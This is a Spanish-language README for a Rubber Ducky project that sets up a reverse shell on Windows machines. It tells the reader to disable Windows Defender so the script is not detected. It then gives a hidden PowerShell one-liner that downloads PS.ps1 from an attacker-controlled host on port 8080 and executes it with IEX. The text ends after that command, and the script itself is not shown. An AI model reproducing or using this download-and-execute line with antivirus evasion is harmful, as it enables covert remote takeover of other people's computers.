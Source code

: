 # Revshell-Windows-rubber_ducky

## Descripción

Este proyecto está diseñado para un **Rubber Ducky**, que permite descargar y ejecutar un script de PowerShell en una máquina Windows. El script, `PS.ps1`, es utilizado para establecer una reverse shell, facilitando así el acceso remoto al sistema.

## Requisitos

- Rubber Ducky
- Acceso a una red local
- Desactivación de Windows Defender (opcional pero recomendado para evitar bloqueos)

## Funcionamiento

1. **Desactivar Windows Defender**: Antes de ejecutar el script, asegúrate de desactivar temporalmente Windows Defender para evitar la detección del script.
   
2. **Ejecutar el comando PowerShell**:
   Utiliza la combinación de teclas `Win + R` para abrir el cuadro de diálogo "Ejecutar", luego escribe el siguiente comando de PowerShell:

   ```powershell
   powershell -w hidden "IEX(New-Object Net.WebClient).downloadString('http://<tu-ip-local>:8080/PS.ps1')"
